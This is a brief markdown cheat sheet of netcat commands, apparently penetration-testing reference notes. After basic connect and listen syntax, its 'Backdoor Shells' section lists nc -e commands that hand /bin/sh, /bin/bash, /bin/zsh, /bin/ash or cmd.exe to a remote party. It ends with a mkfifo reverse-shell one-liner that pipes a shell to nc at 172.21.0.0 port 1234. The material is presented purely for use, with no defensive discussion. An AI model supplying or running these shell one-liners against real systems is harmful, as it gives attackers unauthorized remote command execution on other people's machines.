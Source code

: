 # Netcat Tips

### Fundamentals

Connect to a netcat client:

```
rlwrap nc [IP Address] [port]
```

Connect to a netcat Listener:

```
rlwrap nc -lvp [Localport]
```

More info on rlwrap: [https://linux.die.net/man/1/rlwrap](https://linux.die.net/man/1/rlwrap)

### Backdoor Shells

#### Linux

```
rlwrap nc [Your IP Address] -e /bin/sh
rlwrap nc [Your IP Address] -e /bin/bash
rlwrap nc [Your IP Address] -e /bin/zsh
rlwrap nc [Your IP Address] -e /bin/ash
```

#### Windows

```
rlwrap nc -lv [localport] -e cmd.exe
```

#### Linux netcat reverse shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f
```
